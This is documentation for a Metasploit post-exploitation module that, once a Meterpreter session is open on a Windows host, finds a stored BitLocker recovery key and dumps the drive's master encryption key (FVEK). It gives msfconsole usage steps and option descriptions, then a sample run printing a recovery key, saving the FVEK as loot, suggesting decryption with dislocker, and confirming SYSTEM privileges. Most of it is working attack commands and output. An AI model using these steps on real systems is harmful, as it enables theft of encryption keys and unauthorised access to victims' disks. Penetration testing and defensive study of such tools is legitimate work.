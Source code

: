 ## Vulnerable Application

This module enumerates ways to decrypt a Bitlocker volume and if a recovery key is stored locally or can be generated, dump the Bitlocker master key (FVEK)

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/bitlocker_fvek```
  4. Do: ```set SESSION <session id>```
  5. Do: ```set DRIVE_LETTER <letter>```
  6. Do: ```run```

## Options

### DRIVE_LETTER

  Dump information from the DRIVE_LETTER encrypted with Bitlocker.

### RECOVERY_KEY

  Use the recovery key provided to decrypt the Bitlocker master key (FVEK).

### SESSION

  The session to run this module on.

## Scenarios

### Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/bitlocker_fvek
  msf post(windows/gather/bitlocker_fvek) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/bitlocker_fvek) > set DRIVE_LETTER c
    DRIVE_LETTER => c
  msf post(windows/gather/bitlocker_fvek) > run

    [+] Successfully opened Disk 0
    [*] Trying to gather a recovery key
    [+] Recovery key found : 579744-627517-149402-208362-055022-542289-041470-364089
    [*] The recovery key derivation usually take 20 seconds...
    [+] Successfully extract FVEK in /root/.msf4/loot/20191211125311_default_192.168.1.6_windows.file_437952.bin
    [+] This hard drive could later be decrypted using : dislocker -k <key_file> ...
    [*] Post Successful
    [*] Post module execution completed
  msf post(windows/gather/bitlocker_fvek) > sessions 1
    [*] Starting interaction with 1...

  meterpreter > sysinfo
    Computer        : TEST-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x86
    System Language : en_US
    Domain          : DOMAIN
    Logged On Users : 1
    Meterpreter     : x86/windows
  meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
  ```
